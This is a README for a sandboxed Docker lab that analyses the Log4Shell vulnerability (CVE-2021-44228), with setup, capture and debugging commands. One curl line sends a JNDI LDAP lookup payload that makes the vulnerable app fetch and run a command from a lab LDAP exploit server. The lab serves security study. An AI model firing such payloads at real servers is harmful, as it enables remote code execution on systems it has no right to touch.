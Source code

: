 # Apache Log4j CVE-2021-44228

## 0verview

AKA: *Log4Shell*

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Caused and categorised by "Improper Input Validation"

Apache Log4j library [download](https://archive.apache.org/dist/logging/log4j/)

Vulnerable version: [apache-log4j-2.14.1](https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip)

Fixed version: [apache-log4j-2.15.0](https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip)

Tutorial: [https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/)

## Objectives

1. Analyse Java execution flow within vulnerable application code and log4j library
1. Analyse Network traffic associated with relevant nodes (Application & LDAP Server)
1. Analyse LDAP exploit server and determine how exploit is deployed/architected

## Methodology

### Lab implementation

Docker will be used to provide a sand-boxed environment consisting of the following nodes:

- Vulnerable Application
- LDAP exploit server
- Wireshark instance (optional)
- Docker network

Docker Compose will be used to aid operation and testing.

Wireshark can either be run as a Docker instance (Linux Server Wireshark) or `tcpdump` can be utilised to capture packets and produce a pcap file for later analysis in Wireshark.

__Vulnerable Application__

For stepping through the code create a basic Java application using `log4j` for logging.

Use VSCode with remoting feature to connect to the running Container and perform runtime debugging.

__LDAP Server exploit__

Use Dockerised LDAP exploit server from [Cygenta - how to build your own demo](https://www.cygenta.co.uk/post/your-own-log4shell-demo).

__Wireshark__

Use a variation of Docker configuration found here: [https://docs.linuxserver.io/images/docker-wireshark](https://docs.linuxserver.io/images/docker-wireshark)

__Commands__

```shell
# start all services
$> docker compose up

# stop all services
$> docker compose down

# clean up all Docker artifacts (including stop all services)
$> ./scripts/cleanup.sh

# test the Docker services and network
$> ./scripts/test.sh

# test if exploit has been successful
$> docker compose exec vulnapp ls -l /tmp

# run interactive shell on tools image container
$> docker run --name tools --network example_log4j -it --privileged tools

# inside tools container
$> curl vulnapp:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==}'

# install tcpdump on service container (Alpine)
$> docker compose exec <srvcname> apk add tcpdump


# extract log from contanier
$> docker compose cp <srvcname>:/tmp/dump.log .

# get interactive shell on srvc container
$> docker compose exec <srvcname> sh

# run tcpdump in container
$> tcpdump -i eth0 -w /tmp/dump.cap &
```

## Notes

### Log4j Lookup Feature

[Apache log4j lookups docs](https://logging.apache.org/log4j/2.x/manual/lookups.html)

### Troubleshooting

- Keep getting Error in VSCode: Java server has crashed 5 times in the last 3 minutes
> Solution: F1 -> Java: Clean the Java Language Server Workspace -> Restart & Delete

## Debugging notes

PatternLayout.toSerializable
ln: 344
iteration 8 goes bang!!!

